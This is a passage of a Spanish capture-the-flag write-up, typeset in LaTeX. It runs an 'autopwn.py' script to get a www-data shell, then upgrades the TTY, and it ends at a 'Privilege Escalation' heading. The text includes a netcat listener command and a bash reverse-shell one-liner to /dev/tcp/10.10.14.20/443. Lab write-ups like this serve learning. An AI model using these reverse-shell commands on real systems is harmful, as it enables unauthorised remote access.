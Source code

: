 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
Lo ejecutamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ autopwn.py}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{www-data}

\ExtensionTok{ifconfig}
\end{Highlighting}
\end{Shaded}

El tito prefiere entablarse una shell normal. Se pone en escucha con \texttt{nc\ -nlvp\ 443} y lanza en la shell creado por el script
\texttt{bash\ -i\ \textgreater{}\&\ /dev/tcp/10.10.14.20/443\ 0\textgreater{}\&1}

\hypertarget{tratamiento-de-la-tty-1}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-1}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-1}{%
\section*{Privilege Escalation}\label{privilege-escalation-1}}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima-1}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima-1}}
\end{document}
